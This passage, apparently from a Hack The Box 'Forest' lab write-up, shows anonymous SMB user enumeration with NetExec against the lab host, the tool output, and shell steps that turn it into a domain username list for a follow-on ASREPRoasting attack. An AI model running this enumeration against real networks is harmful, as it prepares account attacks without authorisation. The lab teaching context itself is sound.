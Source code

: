 We get a user list back containing many junk accounts, thus, we have to convert it into a proper username list ready to be used for potential attacks.&#x20;

{% code overflow="wrap" fullWidth="false" %}
```bash
# redirect the output to a file
$ nxc smb forest -u '' -p '' --users > nxc_users.lst
# display the file's content
$ head -n5 nxc_users.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\:
SMB         10.10.10.161    445    FOREST           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain
# extract the users
$ cat nxc_users.lst | cut -d'\' -f2 | cut -d' ' -f1 > users.lst
# display the file's content
$ head -n5 users.lst
SMB
:
SMB
SMB
Administrator
# manually clean the junk
$ nano users.lst
# display the final file's content
$ cat users.lst
Administrator
Guest
krbtgt
DefaultAccount
sebastien
lucinda
svc-alfresco
andy
mark
santi
bubbleman
```
{% endcode %}

Since we now have a valid domain user list, we can check if any of those accounts are vulnerable to [ASREPRoasting](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/asreproasting).

{% hint style="info" %}
NetExec's LDAP protocol [expects](https://www.netexec.wiki/ldap-protocol/authentication) Domain Name Resolution. We have already done that by adding the names in our local DNS file after our port scan.
{% endhint %}
